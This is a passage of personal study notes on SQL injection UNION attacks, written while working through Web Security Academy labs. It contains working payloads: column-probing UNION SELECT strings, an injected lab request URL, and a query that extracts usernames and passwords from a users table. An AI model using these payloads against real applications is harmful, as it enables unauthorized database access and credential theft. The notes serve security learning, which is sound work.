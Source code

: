 After you determine the number of required columns, you can probe each column to test whether it can hold string data. You can submit a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:

`' UNION SELECT 'a',NULL,NULL,NULL-- ' UNION SELECT NULL,'a',NULL,NULL-- ' UNION SELECT NULL,NULL,'a',NULL-- ' UNION SELECT NULL,NULL,NULL,'a'--`

If the column data type is not compatible with string data, the injected query will cause a database error, such as:

`Conversion failed when converting the varchar value 'a' to data type int.`

If an error does not occur, and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.


In short ignore it
Lets see the practical approach ->


### Lab: SQL injection UNION attack, finding a column containing text



![[Pasted image 20250512004102.png]]

**link req** : `0a68002d04ed0c7080e07be700c30042.web-security-academy.net/filter?category=Accessories' +UNION+SELECT+NULL, 'String_REQ' ,NULL--`

*make sure there is space before adding the union or the current dataset wont be visible*
 
here we take a dataset with 4 columns:
`UNION SELECT 'a',NULL,NULL,NULL-- 
`' UNION SELECT NULL,'a',NULL,NULL-- 
`' UNION SELECT NULL,NULL,'a',NULL-- 
`' UNION SELECT NULL,NULL,NULL,'a'--`

by doing this we find which column is capable of holding a string then we could insert a string in it......
*In short to add data we use this*

## Using a SQL injection UNION attack to retrieve interesting data


When we know the number of columns in dataset and can find which columns has string value of data we are in position to retrieve some useful data.....

In this example, you can retrieve the contents of the `users` table by submitting the input:

`' UNION SELECT username, password FROM users--`
-> in this example we are trying to retrieve username and password from column user
Lets perform a lab related to it......
	
### Lab: SQL injection UNION attack, retrieving data from other tables
